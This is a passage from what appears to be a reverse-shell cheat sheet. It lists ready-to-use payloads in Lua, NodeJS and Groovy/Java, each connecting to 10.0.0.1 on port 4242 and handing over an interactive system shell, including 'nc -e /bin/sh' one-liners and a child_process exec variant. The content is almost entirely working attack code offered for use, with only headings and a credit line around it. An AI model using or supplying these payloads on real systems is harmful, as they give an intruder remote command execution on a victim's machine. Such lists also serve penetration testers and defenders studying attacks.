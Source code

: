 Windows and Linux

```
  lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```
  (function(){
      var net = require("net"),
          cp = require("child_process"),
          sh = cp.spawn("/bin/sh", []);
      var client = new net.Socket();
      client.connect(4242, "10.0.0.1", function(){
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
      });
      return /a/; // Prevents the Node.js application form crashing
  })();


  or

  require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

  or

  -var x = global.process.mainModule.require
  -x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

  or

  https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```

### Groovy
    :PROPERTIES:
    :CUSTOM_ID: groovy
    :END:

by [fohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
NOTE: Java reverse shell also work for Groovy

```
  String host="10.0.0.1";
  int port=4242;
  String cmd="cmd.exe";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
